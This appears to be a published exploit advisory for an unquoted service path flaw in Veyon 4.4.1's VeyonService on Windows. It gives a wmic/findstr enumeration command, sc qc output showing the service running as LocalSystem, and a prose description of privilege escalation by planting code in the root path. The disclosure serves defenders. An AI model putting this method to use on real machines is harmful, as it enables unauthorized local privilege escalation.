EXP
---

    # Exploit Title: Veyon 4.4.1 - 'VeyonService' Unquoted Service Path
    # Discovery by: Víctor García
    # Discovery Date: 2020-03-23
    # Vendor Homepage: https://veyon.io/
    # Software Link: https://github.com/veyon/veyon/releases/download/v4.4.1/veyon-4.4.1.0-win64-setup.exe
    # Tested Version: 4.4.1
    # Vulnerability Type: Unquoted Service Path
    # Tested on: Windows 10 Pro x64
    # CVE: CVE-2020-15261

    # Step to discover Unquoted Service Path:

    C:\>wmic service get name,displayname,pathname,startmode |findstr /i
    "auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
    Veyon Service     VeyonService     C:\Program Files\Veyon\veyon-service.exe


    # Service info:

    C:\>sc qc VeyonService
    [SC] QueryServiceConfig SUCCESS

    SERVICE_NAME: VeyonService
            TYPE               : 10  WIN32_OWN_PROCESS
            START_TYPE         : 2   AUTO_START
            ERROR_CONTROL      : 1   NORMAL
            BINARY_PATH_NAME   : C:\Program Files\Veyon\veyon-service.exe
            LOAD_ORDER_GROUP   :
            TAG                : 0
            DISPLAY_NAME       : Veyon Service
            DEPENDENCIES       : Tcpip
                               : RpcSs
            SERVICE_START_NAME : LocalSystem


    # Exploit:

    # A successful attempt would require the local user to be able to insert their code in the
    # system root path undetected by the OS or other security applications where it could
    # potentially be executed during application startup or reboot. If successful, the local
    # user's code would execute with the elevated privileges of the application.